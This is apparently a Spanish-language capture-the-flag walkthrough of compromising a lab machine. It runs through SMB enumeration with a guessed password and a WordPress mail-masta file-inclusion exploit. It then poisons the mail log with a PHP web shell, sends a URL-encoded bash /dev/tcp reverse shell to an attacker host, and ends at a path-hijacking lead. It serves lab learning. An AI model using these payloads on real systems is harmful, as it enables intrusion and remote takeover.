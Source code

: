 Hacemos el escaneo de nmap:
![[Pasted image 20230913193623.png]]
![[Pasted image 20230913193737.png]]
![[Pasted image 20230913193750.png]]
Una vez hecho el reconocimiento, vemos que el puerto 445 se encuentra abierto, por lo que vamos a enumerarlo con smbmap:
```bash
smbmap -H 192.168.0.53
```
![[Pasted image 20230913193831.png]]
Vemos el recurso compartido de anonymous, por tanto con el parámetro -r de smbmap podemos ver su contenido y vemos un fichero llamado attention.txt:
```bash
smbmap -H 192.168.0.53 -r anonymous
```
![[Pasted image 20230913193915.png]]
En el contenido de este fichero nos dice que no usemos una serie de contraseñas, por tanto las vamos a tener en cuenta:
![[Pasted image 20230913194028.png]]
También vemos un recurso compartido llamado helios, lo cual nos puede dar pistas de que se trata de un usuario:
![[Pasted image 20230913194105.png]]
Por tanto listamos los recursos compartidos con este usuario y probando las contraseñas; y ahora vemos que podemos ver el contenido del directorio helios:
```bash
smbmap -H 192.168.0.53 -u helios -p qwerty
```
![[Pasted image 20230913194347.png]]
![[Pasted image 20230913194409.png]]
Nos descargamos los 2 .txt que están dentro:
![[Pasted image 20230913194509.png]]
Y este es el contenido:
![[Pasted image 20230913194533.png]]
En este punto, vemos el directorio de /h3l105 dentro del fichero helios_todo.txt, por tanto accedemos al puerto 80 de la máquina:
![[Pasted image 20230913194740.png]]
Y ahora vemos el directorio /h3l105, donde vemos que estamos ante un wordpress:
![[Pasted image 20230913194908.png]]
Vamos a usar curl para enumerar plugins vulnerables y usuarios válidos:
```bash
curl http://192.168.0.53/h3l105/ | grep 'wp-content'
```
Y en la salida podemos ver varios plugins, entre los cuales se encuentra mail-masta:
![[Pasted image 20230913195655.png]]
Vemos las instrucciones para explotar este mail masta en la web de wpscan:
![[Pasted image 20230913195732.png]]
Por tanto lo pegamos en el navegador y vemos el contenido del /etc/hosts:
```bash
192.168.0.53/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
![[Pasted image 20230913195819.png]]
Una vez en este punto, teníamos abierto también el puerto 25 de la máquina, por tanto nos conectamos al puerto 25:
![[Pasted image 20230913200206.png]]
Ahora debemos establecer los parámetros desde un correo hasta otro, para poder enviar la data:
```bash
MAIL FROM: mario@pinguino.es
RCPT TO: helios
DATA
<?php system($_GET['cmd']) ?>
.
```
Una vez ejecutado este comando, dentro del navegador podemos ejecutar un comando de forma remota:
```bash
curl -vs -X GET "http://192.168.0.57/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=whoami"
```
![[Pasted image 20230914115344.png]]
Ejecutamos el mismo comando pero url encodeado para recibir la reverse shell:
```bash
curl -vs -X GET "http://192.168.0.57/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=%2Fbin%2Fbash+-c+%22sh+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.0.36%2F443+0%3E%261%22"
```
![[Pasted image 20230914115722.png]]
Y recibimos la reverse shell:
![[Pasted image 20230914115734.png]]
Hacemos una búsqueda de binarios:
![[Pasted image 20230914115820.png]]
Y el archivo /opt/statuscheck llama la atención, por lo que lo examinamos, donde vemos que hace uso del comando curl de forma relativa, por lo que podemos estar ante un path hijacking:
```bash
strings /opt/statuscheck
```
![[Pasted image 20230914115929.png]]
